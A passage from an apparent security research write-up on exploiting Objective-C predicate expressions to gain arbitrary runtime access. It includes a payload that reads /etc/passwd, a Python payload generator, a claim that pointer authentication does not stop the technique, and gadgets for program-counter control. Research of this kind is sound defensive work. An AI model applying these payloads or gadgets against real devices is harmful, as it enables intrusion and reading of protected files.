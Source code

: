 With arbitrary class lookup and arbitrary selector invocation, we now have full Objective-C runtime access.

For example, this line of code reads out the content of `/etc/passwd`

```js
FUNCTION(FUNCTION(FUNCTION('A', 'superclass'), 'alloc'), 'initWithContentsOfFile:', '/etc/passwd')
```

Here is a python script for converting payloads to expression format:

```python
def stringify(o):
    if isinstance(o, str):
        return '"%s"' % o

    if isinstance(o, list):
        return '{' + ','.join(map(stringify, o)) + '}'

    return str(o)


class Call:
    def __init__(self, target, sel, *args):
        self.target = target
        self.sel = sel
        self.args = args

    def __str__(self):
        if len(self.args):
            joint = ','.join(map(stringify, self.args))
            tail = ',' + joint
        else:
            tail = ''
        return f'FUNCTION({stringify(self.target)},"{self.sel}"{tail})'


class Clazz:
    def __init__(self, name):
        self.name = name

    def __str__(self):
        return f'CAST("{self.name}","Class")'
```

This is ~~very close to~~ even better than the [SeLector-Oriented Programming by Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1933). It's just like the `eval()` function of Objective-C. PAC doesn't stop this sort of execution at all.

If you prefer classic ROP, here is a method for PC-control, `-[NSInvocation invokeUsingIMP:]`. A problem for this method is that it won't do anything when the `target` property is `nil`. There is no way for both setting initializing the property and then reuse the reference to call its method, because predicates don't support lines and variables (at this moment).

Luckily I found this gadget `-[NSInvocationOperation initWithTarget:selector:object:]` that can initialize the property and return the reference in a chaining call favor.
